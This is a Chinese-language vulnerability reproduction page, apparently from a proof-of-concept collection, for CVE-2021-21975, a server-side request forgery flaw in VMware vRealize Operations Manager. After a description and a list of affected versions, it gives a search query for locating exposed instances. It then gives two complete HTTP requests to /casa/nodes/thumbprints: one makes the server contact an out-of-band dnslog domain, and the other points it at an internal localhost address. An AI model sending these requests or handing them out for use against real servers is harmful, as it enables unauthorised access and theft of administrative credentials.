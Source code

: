 # VMware vRealize Operations Manager SSRF漏洞 CVE-2021-21975

## 漏洞描述

vRealize Operations Manager API包含服务器端请求伪造。可以通过网络访问vRealize Operations Manager API的恶意攻击者可以执行服务器端请求伪造攻击(SSRF)，以窃取管理凭据。

## 漏洞影响

<a-checkbox checked>VMware:vRealize_operations_manager: 8.0.0, 8.0.1, 8.3.0, 8.1.0, 8.1.1, 8.2.0, 7.5.0</a-checkbox></br>
<a-checkbox checked>VMware:cloud_foundation: 4.x 3.x</a-checkbox></br>
<a-checkbox checked>VMware:vRealize_suite_lifecycle_manager: 8.x</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="vRealize Operations Manager"</a-checkbox></br>

## 漏洞复现

访问登录页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311164332648.png)



发送请求包如下

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: 
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24


["eheeyd.dnslog.cn"]
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311164337006.png)

```plain
POST /casa/nodes/thumbprints HTTP/1.1
Host: 
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Length: 24

["127.0.0.1:443/ui"]
```

